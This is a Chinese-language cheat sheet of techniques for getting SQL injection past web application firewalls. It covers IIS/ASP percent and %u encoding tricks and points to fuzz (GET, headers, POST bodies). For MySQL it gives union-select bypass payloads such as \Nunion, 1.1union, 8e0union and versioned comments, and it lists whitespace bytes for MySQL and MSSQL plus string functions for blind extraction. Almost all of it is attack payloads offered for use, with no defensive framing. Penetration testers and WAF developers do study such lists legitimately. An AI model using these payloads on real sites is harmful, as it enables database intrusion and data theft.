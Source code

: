 `WAF类型`

`根据WEB应用程序特性进行Waf绕过`
    
Web应用层
    
    `web容器层`
    % 绕过   asp+iis   即s%elect
    
    %u 特性  asp（x）+ iis   select=s%u006c%u0006ect
    
    apache
    除了使用以上Web容器的特性绕过还可以手工Fuzz Waf
    具体Fuazz如下:
    get请求处 
    header请求处 
    post urlencode内容处 
    post form-data内容处
    
数据库交互层
        
        \Nunion的形式 userid=\Nunion select 
        
        浮点数的形式如1.1,8.0  userid=1.1union select
        
        8e0的形式 userid=8e0union select
        
        利用/*!50000*/的形式 userid=1 un/*!*/ion /*!50000select*/
        
        Mysql中可以利用的空白字符有:%09,%0a,%0b,%0c,%0d,%a0；
        Mssql中可以利用的空白字符有:01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 
        字符串截取函数 
        Mid(version(),1,1)
        Substr(version(),1,1)
        Substring(version(),1,1)
        Lpad(version(),1,1)
        Rpad(version(),1,1)
        Left(version(),1)
        reverse(right(reverse(version()),1)
        字符串连接函数
        concat(version(),'|',user());
        concat_ws('|',1,2,3)
        字符串转换
        Char(49)
        Hex(‘a’)
        Unhex(61)
   MSSQL
        
        可以使用内联注释/**/    
        :号 and:substring()
        %2b号 and%2b
        字符串截取函数
        Substring(@@version,1,1)
        Left(@@version,1)
        Right(@@version,1)
        字符串转换函数
        Ascii(‘a’) 这里的函数可以在括号之间添加空格的，一些waf过滤不严会导致bypass
        Char(‘97’)
        
